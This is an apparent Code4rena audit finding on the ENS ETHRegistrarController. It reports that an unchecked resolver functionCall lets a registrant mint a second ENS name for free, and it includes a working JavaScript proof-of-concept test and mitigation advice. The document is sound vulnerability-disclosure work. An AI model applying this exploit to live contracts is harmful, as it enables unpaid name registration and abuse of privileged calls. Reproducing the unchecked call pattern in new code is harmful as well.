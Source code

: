 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- sponsor confirmed

# [Users can create extra ENS records at no cost](https://github.com/code-423n4/2022-07-ens-findings/issues/132) 

# Lines of code

https://github.com/code-423n4/2022-07-ens/blob/ff6e59b9415d0ead7daf31c2ed06e86d9061ae22/contracts/ethregistrar/ETHRegistrarController.sol#L249-L268
https://github.com/code-423n4/2022-07-ens/blob/ff6e59b9415d0ead7daf31c2ed06e86d9061ae22/contracts/ethregistrar/ETHRegistrarController.sol#L125
https://github.com/code-423n4/2022-07-ens/blob/ff6e59b9415d0ead7daf31c2ed06e86d9061ae22/contracts/ethregistrar/BaseRegistrarImplementation.sol#L106


# Vulnerability details

## Impact
Users using the ```register``` function in ```ETHRegistrarController.sol```, can create an additional bogus ENS entry (Keep the ERC721 and all the glory for as long as they want) for free by exploiting the ```functionCall``` in the ```_setRecords``` function.
The only check there (in the setRecord function) is that the nodehash matches the originally registered ENS entry, this is extremely dangerous because the rest of the functionCall is not checked and the controller has very elevated privileges in ENS ecosystem (and probably beyond).

The single exploit I am showing is already very bad, but I expect there will be more if this is left in. An example of a potential hack is that some of the functions in other ENS contracts (which give the RegistrarController elevated privilege) have dynamic types as the first variables--if users can generate a hash that is a low enough number, they will be able to unlock more exploits in the ENS ecosystem because of how dynamic types are abi encoded.  Other developers will probably also trust the ```ETHRegistrarController.sol```, so other unknown dangers may come down the road.

The exploit I made (full code in PoC) can mint another ENS entry and keep it for as long as it wants, without paying more--will show code below.

## Proof of Concept
Put this code in the ```TestEthRegistrarController.js``` test suite to run. I just appended this to tests at the bottom of file. 

I called the ```BaseRegistrarImplementation.register``` function with the privileges of ```ETHRegistrarController``` by passing the base registrar's address as the ```resolver``` param in the ```ETHRegistrarController.register``` function call. I was able to set a custom duration at no additional cost. 

The final checks of the PoC show that we own two new ENS entries from a single ```ETHRegistrarController.register``` call. The labelhash of the new bogus ENS entry is the nodehash of the first registered ENS entry.

```js
  it('Should allow us to make bogus erc721 token in ENS contract', async () => {
    const label = 'newconfigname'
    const name = `${label}.eth`
    const node = namehash.hash(name)
    const secondTokenDuration = 788400000 // keep bogus NFT for 25 years;

    var commitment = await controller.makeCommitment(
      label,
      registrantAccount,
      REGISTRATION_TIME,
      secret,
      baseRegistrar.address,
      [
        baseRegistrar.interface.encodeFunctionData('register(uint256,address,uint)', [
          node,
          registrantAccount,
          secondTokenDuration
        ]),
      ],
      false,
      0,
      0
    )
    var tx = await controller.commit(commitment)
    expect(await controller.commitments(commitment)).to.equal(
      (await web3.eth.getBlock(tx.blockNumber)).timestamp
    )

    await evm.advanceTime((await controller.minCommitmentAge()).toNumber())
    var balanceBefore = await web3.eth.getBalance(controller.address)

    let tx2 = await controller.register(
      label,
      registrantAccount,
      REGISTRATION_TIME,
      secret,
      baseRegistrar.address,
      [
        baseRegistrar.interface.encodeFunctionData('register(uint256,address,uint)', [
          node,
          registrantAccount,
          secondTokenDuration
        ]),
      ],
      false,
      0,
      0,
      { value: BUFFERED_REGISTRATION_COST }
    )

    expect(await nameWrapper.ownerOf(node)).to.equal(registrantAccount)
    expect(await ens.owner(namehash.hash(name))).to.equal(nameWrapper.address)


    expect(await baseRegistrar.ownerOf(node)).to.equal( // this checks that bogus NFT is owned by us
      registrantAccount
    )
    expect(await baseRegistrar.ownerOf(sha3(label))).to.equal(
      nameWrapper.address
    )
  })
```

## Tools Used
chai tests in repo

## Recommended Mitigation Steps
I recommend being stricter on the signatures of the user-provided ```resolver``` and the function that is being called (like safeTransfer calls in existing token contracts).
An example of how to do this is by creating an interface that ENS can publish for users that want to compose their own resolvers and call that instead of a loose functionCall. Users will be free to handle data however they like, while restricting the space of things that can go wrong.

I will provide a loose example here:
```
interface IUserResolver {
    function registerRecords(bytes32 nodeId, bytes32 labelHash, bytes calldata extraData)

}
```

